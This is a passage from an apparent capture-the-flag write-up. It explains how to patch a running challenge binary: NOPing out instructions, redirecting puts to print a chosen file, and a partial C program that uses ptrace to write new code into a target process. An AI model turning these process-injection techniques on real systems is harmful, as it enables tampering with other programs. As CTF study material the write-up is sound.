 The 32-bytes `0x401802`-`0x401821` just need to be replaced with `nop` and `mov rdi, rsi`:

```assembly
  4017fd:   e8 de f9 ff ff          call   4011e0 <read@plt>
                                    nop
                                    nop
                                    ...
                                    mov    rdi, rsi
  401822:   e8 49 f9 ff ff          call   401170 <puts@plt>
```

Patching out the `exit` after the `puts`, and `flag` for `readstory.txt` is equally as trivial.

The only other thing to consider is:

```c
  do {
    uVar1 = getpid();
    if ((uVar1 & 1) == 0) {
```

If the child PID is not even, then nothing happens.  This can be patched out, however it did not work for me remotely, only locally.  So, for remote I check for the PID as even and retry if not even.


## Exploit Development

Above I stated you could proof-of-concept this in GDB and then write the exploit.  However, there was one more step for me, and that was to write a C version ([hotpatch.c](hotpatch.h)) to test my ideas before investing time in a shellcode version:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>

int main(int argc, char *argv[])
{
    pid_t pid;
    struct user_regs_struct regs;
    unsigned long ins;
    unsigned long addr = 0x401802;
    unsigned long addr_exit = 0x401827;
    unsigned long txt = 0x402011;

    if (argc != 2) {
        printf("usage: %s [pid]\n", argv[0]);
        return 1;
    }

    pid = atoi(argv[1]);
    ptrace(PTRACE_ATTACH, pid, NULL, NULL);
    //wait(NULL);
    sleep(1);

    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    printf("rip: %llx\n",regs.rip);

    //puts after read patch
    ptrace(PTRACE_POKETEXT, pid, addr,    0x9090909090909090);
    ptrace(PTRACE_POKETEXT, pid, addr+8,  0x9090909090909090);
    ptrace(PTRACE_POKETEXT, pid, addr+16, 0x9090909090909090);
    ptrace(PTRACE_POKETEXT, pid, addr+24, 0xf789489090909090);
```